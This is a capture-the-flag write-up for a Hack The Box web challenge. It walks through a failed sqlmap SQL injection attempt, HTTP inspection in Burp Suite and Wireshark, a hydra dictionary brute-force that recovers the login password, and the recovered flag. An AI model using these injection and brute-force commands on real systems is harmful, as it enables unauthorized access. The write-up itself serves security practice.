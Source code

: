 # WEB CHALLENGE: LERNAEAN

## Challenge Description
Your target is not very good with computers. Try and guess their password to
see if they may be hiding anything!

```
host: 88.198.233.174 port:33971
```

## SQLMAP
Let's try SQLMAP to see if SQL injection might work (turns out it doesn't)..

```
$ sqlmap -u http://88.198.233.174:33971/ --data="password=' or '1=1" --tamper=space2comment
```
## BURPSUITE
Let's see if we can examine the HTTP traffic between us and the server by using
burpsuite as our browser proxy to understand what is being passed around..

```
<REQUEST>
POST / HTTP/1.1
Host: 88.198.233.174:33971
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:33971/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

password=test
</REQUEST>

<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 18:32:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 474
Connection: close
Content-Type: text/html; charset=UTF-8

Invalid password!
</RESPONSE>
```

Okay.. that tells us that `password` is the variable being passed to the server.

## WIRESHARK
Let's use wireshark just to confirm what is happening..

```
$ sudo wireshark -i eth0 -k
```

```
SOURCE: 10.0.2.15 DESTINATION: 88.198.233.174 PROTOCOL: HTTP INFO: POST / HTTP1.1 (application/x-www-form-urlencoded)

HTML Form URL Encoded: application/x-www-form-urlencoded
  Form item: "password" = "test"
    Key: password
    Value: test
```

## HYDRA
Okay.. now let's try using `hydra` to mimic these requests and brute force our
way through a dictionary attack..

```
$ hydra 88.198.233.174 -s 33971 http-form-post "/:user=^USER^&password=^PASS^:Invalid password!" -l user -P /usr/share/wordlists/rockyou.txt
```

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-30 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://88.198.233.174:33971//:user=^USER^&password=^PASS^:Invalid password!
[33971][http-post-form] host: 88.198.233.174   login: user   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-30 17:13:41
```

Weeeeeeee! Looks like we found a valid password.

## LOOKING FOR THE FLAG
Trying the password we found on the form gives us a `Ooops! Too slow` response
on this page: `http://88.198.233.174:33971/noooooooope.html`..

.. but if we use burpsuite to analyze the response from the server, we find
some hidden info..

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2017 22:17:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
</RESPONSE>
```
